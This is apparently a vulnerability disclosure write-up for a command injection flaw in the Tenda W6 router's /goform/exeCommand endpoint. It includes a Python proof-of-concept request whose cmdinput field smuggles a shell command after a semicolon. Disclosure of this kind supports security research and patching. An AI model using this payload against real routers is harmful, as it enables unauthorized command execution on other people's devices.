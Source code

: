 # Tenda W6 Command Injection Vulnerability

## Device Vulnerability Introduction
Tenda W6 is an enterprise wireless AP router from Tenda Technology (Shenzhen, China).

A command injection vulnerability exists in /goform/exeCommand in Tenda W6 V1.0.0.9(4122) version, which allows attackers to construct cmdinput parameters for arbitrary command execution

Firmware download at: https://www.tenda.com.cn/download/detail-2576.html

## Exploit process

![image-20220707114514300](./pic/image-20220707114514300.png)

![image-20220707114748954](pic/image-20220707114748954.png)

![image-20220707120422585](pic/image-20220707120422585.png)
```python
burp0_url = "http://192.168.5.1/goform/exeCommand"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}
data1="cmdinput=asd;ls -la . > ./tmp/hack;aa"+'a'*0x0
requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)
```

